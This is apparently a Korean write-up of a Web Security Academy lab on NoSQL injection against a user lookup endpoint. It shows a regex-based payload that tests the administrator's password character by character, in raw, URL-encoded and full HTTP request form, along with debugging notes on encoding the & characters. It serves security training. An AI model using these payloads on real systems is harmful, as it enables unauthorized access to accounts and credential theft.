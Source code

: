 ## 공격
NoSQL 인젝션이 가능한 곳을 알았으니 이제 administrator유저의 패스워드를 하나씩 알아낸다. 

## 패스워드에 숫자가 포함되어 있는지 확인
다음 페이로드를 보내본다. 

`administrator' && this.password.match(/\d/) || 'a'=='b` 

공백이 포함되어 있으므로 웹 브라우저에서 URL에 다음 경로를 쳐서 접속하면 URL인코딩을 브라우저가 해주므로 간편하다. 

`https://0a2e00d903fd90de80edd04c00c60031.web-security-academy.net/user/lookup?user=administrator' && this.password.match(/\d/) || 'a'=='b`

URL인코딩된 결과는 다음과 같다. 

`https://0a2e00d903fd90de80edd04c00c60031.web-security-academy.net/user/lookup?user=administrator%27%20&&%20this.password.match(/\d/)%20||%20%27a%27==%27b`

그런데 서버의 응답은 `"There was an error getting user details"` 였다. NoSQL에러가 발생한 것이다.

음...쿼리 문법상으로 문제가 있는 것 같다. 페이로드 `administrator' && this.password.match(/\d/) || 'a'=='b` 에서 `&& this.password.match(/\d/)` 부분을 제거하고 `administrator' || 'a'=='b` 로 테스트해본다. 

이번에는 정상적으로 administrator 계정의 정보가 조회되었다.  

```
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

`&& this.password.match(/\d/)` 부분이 뭔가 문법적으로 에러가 있는 것으로 보인다. 만약 문법적으로 문제가 없고 제대로 처리되었으면 결과가 True 또는 False 되어 administrator정보가 조회되거나 해당 유저를 찾을 수 없다는 메세지가 회신되었을 것이다. 

아니다... 아마 `&& this.password.match(/\d/)`의 앰퍼샌드(&) 기호가 URL에서는 파라메터를 구분하는 용도로 쓰이기 때문에 서버측에서 에러가 발생한 것 이다. `&`를 URL인코딩하면 `%26`이므로 `&`를 `%26`으로 변환해서 보내보자. 


HTTP요청이다. 

```http
GET /user/lookup?user=administrator%27%20%26%26%20this.password.match(/\d/)%20||%20%27a%27==%27b HTTP/2
Host: 0aa700fd034c830d81cad4a300640087.web-security-academy.net
Cookie: session=tEl6FiREhuIvrPyCDJMkLiV7NsZk1byw
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```
